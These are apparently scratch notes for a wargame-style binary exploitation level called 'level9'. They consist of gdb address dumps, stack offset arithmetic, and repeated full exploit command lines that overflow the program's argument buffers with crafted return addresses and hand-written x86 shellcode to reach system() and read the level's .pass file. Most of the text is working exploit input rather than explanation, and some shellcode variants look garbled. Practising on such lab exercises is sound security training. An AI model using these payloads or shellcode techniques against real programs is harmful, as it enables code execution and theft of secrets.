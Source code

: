 argc = 0xbffff730

argv = 0xbffff7cc = new 0xbffff6a4
arv[0] = 0xbffff7cf
arv[1] = 0xbffff6a8 -> 0xbffff7e8									0xbffff728 -> 0xbffff867
arv[2] = 0xbffff6ac -> 0xbffff859                                 	0xbffff72c -> 0xbffff8d8
arv[3] = 0xbffff902 "77777" = 0xbffff7c
decalage 108-8-4 = 96

print a*96 + '\x00\xf9\xff\xbf'


2297

2304


(gdb) p *(char **)(0xbffff7c0)
$34 = 0xbffff902 "77777"


(gdb) p *(char **)(0xbffff7cc)
$33 = 0xbffff91c "SHELL=/bin/bash"

0xbffff8fb

need to "call 0xbffff91c + 7"

./level9 $(python -c "print('\xd8\xf8\xff\xbf' + '\x2c\xf7\xff\xbf' + 'a'*100 + '\x2c\xf7\xff\xbf')") $(printf "\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\x67\xd8\xf7\xc9\xc3\x00") "77777" 




system = 0xb7d86060 = \x60\x60\xd8\xb7

0x77d8595f

ofset de 0xb7d86060 - 0x77d8595f = 0x40000701 = 0xF7D86761 

\x61\x67\xd8\xf7


<<< 'echo "$(cat /home/user/level9/.pass)"'


\x55\x89\x81\x8b\x89\x8b\x89\x65\x89\x31\xba\xb8\x89\x89\xe8\x89\xba\xb8\x89\x89\xe8\x89\x8d\x8b\x89\xc7\x00\xc7\x00\x89\xe8\xc6\x00\x8d\x8b\x89\xc7\x00\xc7\x00\x89\xe8\xb8\x8b\x65\x74\xe8\xc9\xc3

./level9 $(python -c "print('\xd8\xf8\xff\xbf' + '\x2c\xf7\xff\xbf' + 'a'*100 + '\x2c\xf7\xff\xbf')") $(printf "\x55\x89\x81\x8b\x89\x8b\x89\x65\x89\x31\xba\xb8\x89\x89\xe8\x89\xba\xb8\x89\x89\xe8\x89\x8d\x8b\x89\xc7\x00\xc7\x00\x89\xe8\xc6\x00\x8d\x8b\x89\xc7\x00\xc7\x00\x89\xe8\xb8\x8b\x65\x74\xe8\xc9\xc3") "77777" 



./level9 $(python -c "print('\xd8\xf8\xff\xbf' + '\x2c\xf7\xff\xbf' + 'a'*100 + '\x2c\xf7\xff\xbf')") $(printf "\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\x67\xd8\xf7\xc9\xc3\x00") "77777"